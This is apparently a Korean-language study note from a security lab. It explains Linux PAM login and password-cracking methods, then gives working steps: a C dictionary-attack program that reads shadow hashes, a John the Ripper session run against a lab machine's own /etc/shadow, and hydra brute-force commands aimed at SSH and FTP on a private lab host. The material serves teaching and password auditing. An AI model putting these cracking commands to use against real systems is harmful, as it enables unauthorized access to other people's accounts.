








## 시스템 인증 방식

- Linux 로그인 과정
  - 사용자의 로그인 요청 시 로그인 서비스(login 또는 gdm-password)가 동작하여 사용자의 이름과 암호 요구

  - 사용자 계정과 비밀번호 입력 - 로그인 프로세스는 PAM(Pluggable Authentication Modules)을 호출하여 입력된 사용자 계정과 비밀번호 정보 전달

  - PAM은 인증모듈을 호출하여 사용자 인증과정을 수행하고 그 결과를 로그인 프로세스에게 전달

  - 로그인 프로세스는 전달받은 결과에 따라서 로그인 성공 또는 실패작업 수행

    

- 환경 설정

  - 패키지 설치

    ```
    # yum -y install gcc 
    ```

  - 소스코드 준비

    ```
    # vim /pass.c
    
    #include <stdio.h>
    #include <crypt.h>
    int main(){
            char pPass[] = "keroro2424.";
            char pHash[] = "$6$0cM2I99WI9mwaFUf";
            char *pResult;
            pResult = crypt(pPass, pHash);
            printf("%s\n", pResult);
            return 0;
    }
    ```

  - /etc/shadow 에서 다른 사용자의 정보를 가지고 온다

    ```
    ktest:
    $6
    $RUybtCsuJIbQA.Z/
    $Ug/9eaaXInjJy7PRJf2KisilLWdT5s5s/Jrx35LVOQGH2coDfGOZNNRScwcGFjeo9Ssq5snWcsqgZFJUum1Ja0:19183:0:99999:7:::
    ```

  - 가지고 온 정보를 소스코드에 추가

    ```
    # vim /pass.c
    ```

    

  - 컴파일 후 실행, /etc/shadow 값과 비교

    ```
    # gcc -o /pass /pass.c -lcrypt
    # /pass
    ```

    

    

  - 

## 패스워드 크래킹

- 패스워드 크래킹
  - 안전하지 않은 패스워드를 사용하는 계정에 대해 패스워드를 알아내는 공격 기법
  - 공격자가 특정 공격을 통해 OS, Database 등에 저장되어 있는 패스워드 데이터베이스 파일을 획득하여 패스워드를 알아내기 위한 방법으로 사용
  - 보안적인 의미로 패스워드에 대한 취약성 검증을 수행

- 패스워드 안전성 검증
  - KISA 패스워드 안정성 검증(새로운 패스워드에 대한 안정성 검증)

    > https://seed.kisa.or.kr/kisa/Board/16/detailView.do

    > 패스워드 자가진단 도구를 통한 패스워드 안전성 검증

    > 패스워드 안정성 검증 라이브러리를 이용하여 패스워드 안정성 검증

  - how secure is my password : https://howsecureismypassword.net/ - 패스워드 크래킹 도구 이용(기존의 패스워드에 대한 안정성 검증)

    > 로컬 : John The Ripper, Cain & Abel, LC4, L0phtCrack, ...

    > 원격 : hydra, brutessh, unsecure, ncrack, ...

- 패스워드 크래킹 방법
  - 무작위 대입 공격(Brute Force Attack)

    > 패스워드에 사용될 수 있는 문자열의 범위를 정하고, 범위 내에 생성 가능한 모든 패스워드를 생성하여 패스워드 입력 수행

    > 패스워드가 단순할 경우 짧은 시간 안에 크래킹이 수행되나, 길고 복잡한 패스워드인 경우 오랜 시간 소요

  - 사전 대입 공격(Dictionary Attack)

    > 사전 대입 공격은 패스워드로 사용할 만한 것을 사전으로 만들어 놓고 이를 하나 씩 대입하여 패스워드 일치 여부를 확인

    > 사전 파일 확보 → google 검색 : dic.txt, dictionary.txt, password.txt, ...

    > rockyou dictionary : https://wiki.skullsecurity.org/index.php?title=Passwords

  - 하이브리드 공격(Dictionary + Guessing Attack)

    > 사전 공격 보다 진화한 공격 기법

    > 문자열에 숫자나 심볼을 추가하여 패스워드에 대입

    > 공격 대상의 개인 정보 등을 충분히 알고 있다면 매우 효율적인 공격 방법이며 실제로 모의해킹을 하는 경우 상당 수의 패스워드가 추측에 의한 사전 대입 공격에 의해 노출 됨

## Local Password Cracking

- 실습

  - 소스코드 준비

    ```
    # vim /dictionary_attack.c
    
    #include <stdio.h>
    #include <string.h>
    #include <crypt.h>
    
    int main(){
                    char key[]="$6$sK59qs5l$HFN1x3n6jtRTgNXVZsX.6dJfvEfS.Pd0MquMQggzlN7j7cI9W/Mgl05pj9pN.vlOnuPTSIJ7OE6zhdoyPYcaa0";
                    char hash[]="$6$sK59qs5l$";
                    char word[20]="\0";
                    char * result;
                    FILE * fp = fopen("dict.txt","r");
                    while(fscanf(fp,"%s",word) != EOF){
                            result = crypt(word,hash);
                            if(strcmp(result, key)==0){
                                    printf("key is: %s\n" , word);
                                    break;
                            }
                    }
                    fclose(fp);
                    return 0;
    }
    ```

    

  - 테스트 하고자 하는 shadow 파일의 값을 가져온다

    ```
    ktest:$6$RUybtCsuJIbQA.Z/$Ug/9eaaXInjJy7PRJf2KisilLWdT5s5s/Jrx35LVOQGH2coDfGOZNNRScwcGFjeo9Ssq5snWcsqgZFJUum1Ja0:19183:0:99999:7:::
    ```

  - dictionary_attack.c 에 수정

    ```
    char key[]="$6$RUybtCsuJIbQA.Z/$Ug/9eaaXInjJy7PRJf2KisilLWdT5s5s/Jrx35LVOQGH2coDfGOZNNRScwcGFjeo9Ssq5snWcsqgZFJUum1Ja0";
    char hash[]="$6$RUybtCsuJIbQA.Z/$";
    ```

    

  - dict 파일 위치 확인

    ```
    # cp /john-1.9.0/run/dict.txt /root/dict.txt
    ```

  - 실행후 결과

    ```
    [root@localhost ~]# gcc -o d /dictionary_attack.c -lcrypt
    [root@localhost ~]# ./d
    ```

    

## john the ripper 를 사용한 패스워드 크래킹

- John-The-Ripper
  - http://www.openwall.com/john/

  - 패스워드 크래킹 도구(감사 목적으로 개발)

  - 다양한 알고리즘 및 플랫폼 지원

  - Brute Force, Dictionary 지원

  - 알고리즘 자동 감지

  - 네트워크 기반 공격은 지원하지 않음 

  - ~/.john 디렉토리에 로그 저장 

  - 사용법 

    > john FILE : FILE에 대한 Brute force password cracking

    > john –wordlist=FILE1 FILE2: FILE1의 내용을 이용하여 FILE2에 대한 dictionary password cracking

- 환경설정

  - /etc/passwd  , /etc/shadow 파일을 이용하여 해시값을 추출하여 지정된 암호로 크래킹 시도

  - 패키지 설

    ```
    # yum -y install gcc
    # wget https://www.openwall.com/john/k/john-1.9.0.tar.gz --no-check-certificate
    ```

    

  - 압축해제

    ```
    # tar zxvf /john-1.9.0.tar.gz
    ```

    

  - 디렉터리 이동

    ```
    # cd /john-1.9.0/src
    ```

  - 설치시 해당되는 아키텍처(CPU,OS 종류)을 선택

    ```
    [root@localhost src]# make | grep Linux
    ```

    

  - 컴파일

    ```
    # make linux-x86-64
    ```

    

  - 실행 파일 확인

    ```
    [root@localhost src]# cd ../run/
    [root@localhost run]# ls
    ```

    

  - 해시값이 검증되도록  /etc/shadow , /etc/passwd 와 함께 해시값 해제 

    ```
    shadow 파일 분해
    
    [root@localhost run]# ./unshadow /etc/passwd /etc/shadow > ./passaudit
    [root@localhost run]# ls -al ./passaudit 
    ```

    

  - 사전파일

    ```
    # vim ./dict.txt
    ```

    

  - 사전파일에 맞는 사용자 몇개 추가

    ```
    [root@localhost run]# useradd test02
    [root@localhost run]# useradd test03
    [root@localhost run]# useradd test04
    [root@localhost run]# passwd test02
    [root@localhost run]# passwd test03
    [root@localhost run]# passwd test04
    ```

    

    

    

  - 실행

    ```
    # ./john
    ```

    

    ```
    [root@localhost run]# ./john --wordlist=./dict.txt ./passaudit
    ```

    

  - 다시 실행

    ```
    [root@localhost run]# ./john --wordlist=./dict.txt ./passaudit
    ```

    

    > 한번 실행하면 기록에 남아서 더이상 진행을 안한다

    ```
    [root@localhost run]# rm -rf ./john.pot
    [root@localhost run]# ./john --wordlist=./dict.txt ./passaudit
    ```

    

  - 아까 추가한 test02, test03, test04에 대한 정보가 없다

    > 계정 추가하기전에 unshadow 했기 때문

  - passaudit 파일을 삭제하고 다시 시도

    ```
    # rm -rf ./passaudit
    # ./unshadow /etc/passwd /etc/shadow > ./passaudit
    # ./john --wordlist=./dict.txt ./passaudit
    ```

    

## Remote Password Cracking

- hydra  를 이용한 dictionary attack

  - kail(공격자) -> centos(공격대상)

    > 통신체크

    

  - 사전 파일 생성

    ```
    # vim passlist.txt
    ```

    

  - 유저이름 사전 파일 생성

    ```
    # vim /root/user.txt
    ```

    

  - hydra 를 이용한 패스워드 크래킹 ssh 

    ```
    # hydra -L user.txt -P passlist.txt ssh://172.16.0.110
    ```

    

  - hydra 를 이용한 패스워드 크래킹 ftp

    ```
    centos]
    
    설치
    # yum -y install vsftpd
    
    root 들어가도록 허용
    # vim /etc/vsftpd/ftpusersp
    # vim /etc/vsftpd/user_list
    ```

    

    

    ```
    # service vsftpd restart
    ```

    ```
    ┌──(root㉿kali)-[~]
    └─# hydra -L user.txt -P passlist.txt ftp://172.16.0.110
    ```

    

    

